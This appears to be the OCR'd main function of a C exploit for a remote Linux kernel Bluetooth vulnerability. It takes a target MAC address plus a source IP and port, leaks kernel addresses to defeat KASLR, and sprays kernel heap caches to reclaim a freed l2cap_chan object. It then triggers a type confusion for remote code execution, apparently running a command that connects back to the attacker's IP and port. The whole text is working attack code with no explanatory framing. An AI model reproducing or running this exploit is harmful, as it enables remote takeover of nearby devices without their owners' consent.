     int main(int argc, char *argv[]) {
      if (argc != 4) {
        printf("Usage: %s target_mac source_ip source_port\n", argv[0]);
        exit(1);
      }

      bdaddr_t dst_addr = {0};
      str2ba(argv[1], &dst_addr);

      snprintf(remote_command, sizeof(remote_command), REMOTE_COMMAND, argv[2],
               argv[3]);
      printf("[+] Remote command: %s\n", remote_command);

      printf("[*] Opening hci device...\n");
      hci_sock = connect_hci();

      printf("[*] Connecting to victim...\n");
      l2_sock = connect_l2cap(dst_addr, &hci_handle);
      printf("[+] HCI handle: %x\n", hci_handle);

      connect_a2mp();

      uint64_t kernel_addr = leak_kstack();
      printf("[+] Kernel address: %lx\n", kernel_addr);
      KASLR_DEFEAT(kaslr_offset, kernel_addr);
      printf("[+] KASLR offset: %lx\n", kaslr_offset);
      if ((kaslr_offset & 0xfffff) != 0) {
        printf("[-] Error KASLR offset is invalid.\n");
        exit(1);
      }

      prepare_l2cap_chan_addr_leak();
      l2cap_chan_addr = leak_kstack() - 0x110;
      printf("[+] l2cap_chan address: %lx\n", l2cap_chan_addr);
      if ((l2cap_chan_addr & 0xff) != 0) {
        printf("[-] Error l2cap_chan address is invalid.\n");
        exit(1);
      }

      // Somehow, spraying a bit before makes the UaF more reliable.
      printf("[*] Spraying kmalloc-1024...\n");
      spray_kmalloc_1024(0x40);

      // Disconnect to free the l2cap_chan object, then reconnect.
      disconnect_a2mp();
      connect_a2mp();

      // Attempt to reclaim the freed l2cap_chan object.
      printf("[*] Spraying kmalloc-1024...\n");
      for (int i = 0; i < NUM_SPRAY_KMALLOC_1024; i++) {
        spray_kmalloc_1024(0x40);
      }

      // Attempt to control the out-of-bounds read.
      printf("[*] Spraying kmalloc-128...\n");
      for (int i = 0; i < NUM_SPRAY_KMALLOC_128; i++) {
        spray_kmalloc_128(0x40);
      }

      printf("[*] Triggering remote code execution...\n");
      disconnect_a2mp();
      trigger_type_confusion();

      close(l2_sock);
      hci_close_dev(hci_sock);

      return 0;
    }